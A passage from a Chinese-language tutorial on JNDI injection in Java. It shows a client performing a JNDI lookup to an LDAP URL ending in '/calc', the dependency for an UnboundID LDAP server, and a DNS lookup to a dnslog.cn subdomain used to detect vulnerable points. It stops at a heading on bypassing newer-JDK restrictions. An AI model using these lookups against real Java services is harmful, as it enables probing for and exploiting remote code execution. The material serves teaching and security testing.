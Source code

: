   
服务端需要添加如下依赖：  

```
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
</dependency>
```

  
客户端  

```
package demo;


import javax.naming.InitialContext;


publicclassJNDI_Test{
    publicstaticvoidmain(String[] args)throws Exception{
        Object object=new InitialContext().lookup(&#34;ldap://127.0.0.1:7777/calc&#34;);
    }
}
```

  
  
2.3  
  
   
DNS协议  
  
DNS主要是为了快速测试是否存在漏洞点。  

```
import javax.naming.InitialContext;
import javax.naming.NamingException;
publicclassClient{
    publicstaticvoidmain(String[] args)throws NamingException{
        String url = &#34;dns://test.bmg6g1.dnslog.cn&#34;;
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSKxRBKOEibsGsRZpeBsrcdw6XTzo0O1FaciaULmdzSibafqibibnqTVVacFpKfA4Nt1j6flEYHnQ3Ot2g/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSKxRBKOEibsGsRZpeBsrcdw6XTzo0O1FaciaULmdzSibafqibibnqTVVacFpKfA4Nt1j6flEYHnQ3Ot2g/640?wx_fmt=png "")  
  
  
  
JDK高版本  
  
限制绕过  
  
